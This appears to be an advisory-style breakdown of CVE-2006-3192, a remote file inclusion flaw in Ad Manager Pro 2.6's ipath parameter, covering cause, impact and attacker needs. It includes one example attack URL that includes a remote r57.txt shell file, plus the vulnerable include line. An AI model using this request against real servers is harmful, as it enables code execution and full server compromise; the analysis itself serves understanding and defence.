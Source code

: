 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3192

**Root Cause of Vulnerability:**
*   The vulnerability is a Remote File Inclusion (RFI) flaw.
*   The `ad.php` and `common.php` files in Ad Manager Pro 2.6 improperly handle the `ipath` parameter.

**Weaknesses/Vulnerabilities Present:**
*   **Uncontrolled Parameter:** The application directly includes the file specified in the `ipath` parameter, without proper sanitization or validation.
*   **Remote File Inclusion:** The vulnerability allows an attacker to include a remote file from an attacker-controlled server.

**Impact of Exploitation:**
*   **Code Execution:** By including a malicious file (e.g., a PHP file containing shell commands), the attacker can execute arbitrary code on the server.
*   **Full Server Compromise:** Successful code execution could lead to complete control of the web server and potentially the entire system.

**Attack Vectors:**
*   **HTTP GET Request:** The attacker can inject the malicious URL into the `ipath` parameter within a HTTP GET request sent to the vulnerable `ad.php` or `common.php` files.
    *   Example: `http://[site]/admanagerpro/common.php?ipath=http://site/r57.txt?`
        *   This includes a remote file `r57.txt`, potentially containing malicious code

**Required Attacker Capabilities/Position:**
*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable web server.
*   **External Server:** The attacker needs a server to host the malicious file that will be included by the vulnerable application.

**Additional Notes:**
*   The provided exploit code snippet `if ($ipath) include($ipath.'/common.php'); else include('./common.php');`  shows how the `ipath` parameter is used to directly include a file without proper checks.
*   The vulnerability exists in Ad Manager Pro 2.6, as reported by exploit-db.com.